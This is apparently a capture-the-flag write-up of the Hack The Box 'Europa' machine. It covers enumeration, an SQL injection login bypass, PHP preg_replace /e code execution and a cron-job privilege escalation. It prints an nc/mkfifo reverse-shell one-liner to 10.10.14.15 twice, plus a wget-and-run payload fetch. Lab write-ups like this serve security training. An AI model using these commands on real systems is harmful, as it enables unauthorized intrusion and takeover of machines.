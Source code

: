 ![logo](/logo.png)

# [Europa- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 23 Jun 2017 as the eight machine on HTB,Europa created by [ch4p](https://app.hackthebox.com/users/1) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/europa 10.10.10.22
```

###### Output 

![](/Linux/Linux-Medium/Europa/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/europa 10.10.10.22                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 08:01 EAT
Nmap scan report for 10.10.10.22
Host is up (0.32s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
| tls-alpn: 
|_  http/1.1
|_http-title: 400 Bad Request
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.05 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`.  and a bunch of hostnames

port[22]-ssh
port[80]-tcp
port[443]- https

when we naviagate to [http://10.10.10.22](http://10.10.10.22)  we find a page of  Apache

![](/Linux/Linux-Medium/Europa/Screenshots/apache.png)

so looking at the page i think its a misconfigaration of the apache so lets foward this to burpsuite so that we can see the request and also change the hostname to `europacorp.htb`, `www.europacorp.htb`, `admin-portal.europacorp.htb`  when looking at the sites we find the login form  [https://admin-portal.europacorp.htb](https://admin-portal.europacorp.htb)

![](/Linux/Linux-Medium/Europa/Screenshots/admin.png)

lest view the certificate to get other information 

![](/Linux/Linux-Medium/Europa/Screenshots/certificate.png)

we now now that the admin email address is `admin@europacorp.htb` lets open burp and see if we can find some SQl Injection

![](/Linux/Linux-Medium/Europa/Screenshots/burp.png)

upon trying the injection on the email adress and commenting out the password with a comment it lests us in.

![](/Linux/Linux-Medium/Europa/Screenshots/burpin.png)

![](/Linux/Linux-Medium/Europa/Screenshots/dashboard.png)


# Exploitation 

so in tools section we an openvpn generator

![](/Linux/Linux-Medium/Europa/Screenshots/openvpn.png)

so lets send this to burpsuite to analyze it further. Once on the tools page, it appears that it replaces all occurrences of ip_address with a user-specified string. By examining the POST data using Burpsuite, it appears that the regex can be set client-side.

![](/Linux/Linux-Medium/Europa/Screenshots/burpsuite.png)

![](/Linux/Linux-Medium/Europa/Screenshots/burppoc.png)

It can be assumed that the pattern variable is used in preg_replace in the code, which can be
easily exploited. Refer to the linked article [Exploit ](https://www.madirish.net/402) for more information on how this exploit works.

by adding the `/e` modifier and getting the system to do a `whoami` i can see that i can interact with the machine.

![](/Linux/Linux-Medium/Europa/Screenshots/www.png)


so we are going to save this exploit as `shell.php`  then we get it with wget  then run bash against the file but we save it on `tmp`


```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 1337 >/tmp/f
```


```sh
system('wget http://10.10.14.15:8000/shell.php -P /tmp;')
```


```sh
system('bash -f /tmp/shell.php';')
```

![](/Linux/Linux-Medium/Europa/Screenshots/payload.png)


and after running that we get shell

![](Linux/Linux-Medium/Europa/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```


![](/Linux/Linux-Medium/Europa/Screenshots/stty.png)

you can get the `user flag`  at 

![](/Linux/Linux-Medium/Europa/Screenshots/useeflag.png)

so lets get `LinEnum` so that we can identify potentila `privsec`  

![](/Linux/Linux-Medium/Europa/Screenshots/LinEnum.png)

it appears that `/var/www/cronjobs/clearlogs` is run every minute

![](/Linux/Linux-Medium/Europa/Screenshots/cronjobs.png)

Examining the clearlogs file shows that `/var/www/cmd/logcleared.sh` is executed by this PHP
script. The `logcleared.sh` file does not exist however, and the directory is writable by `www-data`.

![](/Linux/Linux-Medium/Europa/Screenshots/logsh.png)

so lets creat a revershell used earlier but change the listerner then creat a `logclearned.sh`  to the specified path then we `chmod +x` to make it executable.

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9002 >/tmp/f
```

![](/Linux/Linux-Medium/Europa/Screenshots/privsec.png)

and like that we get root 

![](/Linux/Linux-Medium/Europa/Screenshots/root.png)

and we can get the root flag at 

![](/Linux/Linux-Medium/Europa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley------------



